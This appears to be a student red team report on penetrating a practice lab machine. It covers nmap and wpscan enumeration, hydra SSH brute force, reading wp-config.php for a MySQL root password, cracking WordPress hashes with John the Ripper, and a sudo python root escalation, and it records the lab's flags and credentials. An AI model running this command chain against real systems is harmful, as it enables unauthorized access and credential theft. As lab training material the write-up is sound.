 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.
      - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
        ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
        ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      - `ssh michael@192.168.1.110`
        ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      - `cd /var/www/html/`
      - `cat service.html`
        ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      - `locate flag2.txt`
      ![locate flag2](./Images/locateFlag2.png)
      - `cd /var/www/`
      - `cat flag2.txt`
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      - `cd /var/www/html/wordpress/`
      - `cat wp-config.php`
      ![MySQL login credentials](./Images/mysqlcredentials.png)
      - The login credentials can be used to login to the MySQL database.
      - `mysql -u root -p'R@v3nSecurity'`
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      - `show databases;`
      - `use wordpress;`
      ![show databses and use wordpress](./Images/showDatabases.png)
      - `show tables;`
      ![show tables](./Images/showTables.png)
      - `select * from wp_posts` 
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
      - `john wp_hashes.txt`
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      - `sudo -l`
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      ![privilege escalation](privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      - `locate flag4.txt`
      ![locate flag4](./Images/locateFlag4.png)
      - `cd /root/`
      - `cat flag4.txt`
      ![flag4](./Images/flag4.png)